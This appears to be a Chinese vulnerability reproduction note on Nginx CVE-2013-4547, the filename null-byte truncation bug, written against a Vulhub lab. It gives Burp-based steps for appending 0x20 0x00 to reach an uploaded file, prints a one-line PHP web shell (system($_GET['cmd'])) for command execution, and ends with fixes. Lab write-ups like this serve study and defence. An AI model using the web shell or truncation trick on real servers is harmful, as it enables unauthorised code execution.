









# Nginx_文件名逻辑漏洞(CVE-2013-4547)

| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 | CVE-2013-4547                        |
| 漏洞名称 | Nginx 文件名逻辑漏洞                 |
| 漏洞评级 |                                      |
| 影响范围 | Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7 |
| 漏洞描述 |                                      |
| 修复方案 |                                      |


### 1.1、漏洞描述

这个漏洞其实和代码执行没有太大关系，其主要原因是错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响

漏洞成因大概为==Nginx本身并不能解析PHP代码，只能通过加载PHP模块来进行解析代码==。

通过正则表达式来匹配以.php结尾的请求路径交给PHP模块去解析，但是Nginx在加载文件名时遇到‘\0’便会停止读取‘\0’后面的内容，于是通过以上思路，我们在进行文件上传的时候，文件名应该设置为shell.png,在进行访问时，访问文件应为shell.png'\0'.php,通过正则表达式匹配.php后缀将请求路径交给PHP模块，PHP模块在读取文件名时遇到\0便不会读取后面的.php，从而解析文件为shell.png,但是在实际过程中，Nginx在读取文件名碰到'\0'便会出现报错并停止执行，当我们在'\0'前面加入空格后，Nginx便会跳过报错处理，这样便可以成功利用'\0'进行截断，因此我们的请求路径应该为shell.png\[0x20][0x00].php,Nginx在读取文件名为shell.png[0x20],因此我们在上传文件时应该上传文件名shell.png[0x20]
具体解释可查看参考文章

- '\0'为字符串结束标志，十六进制表示为0x00
- 空格字符，十六进制表示为0x20

### 1.2、漏洞等级

### 1.3、影响版本

Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/nginx/CVE-2013-4547

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:{8080}/`即可看到



#### 2、漏洞扫描

#### 3、漏洞验证

上传一个shell.php的文件，代码如下

```php
<?php phpinfo();?>
```

bp抓包修改文件名和文件类型



抓取访问`shell.png.php`文件的数据包,发送至repeater模块



修改hex，找到`shell.png.php`，最后一个点的位置，在其前面添加`空格`和`\0`的十六进制数




添加十六进制



点击`send`发送数据包



### 1.5、深度利用

#### 命令执行

```php
# cmd.php
<?php system($_GET['cmd'])?>
```



浏览器访问http://10.9.75.3:8080/uploadfiles/cmd.jpg.php

抓取数据包 添加`0x20`,``0x00`



点击发送，然后进行 命令执行




### 1.6、修复建议

- 将Nginx升级到1.5.7之后
- 对上传的文件进行重命名操作
- 过滤空格
- 取消文件目录的执行权限

### 1.7、参考

https://zhuanlan.zhihu.com/p/136801555


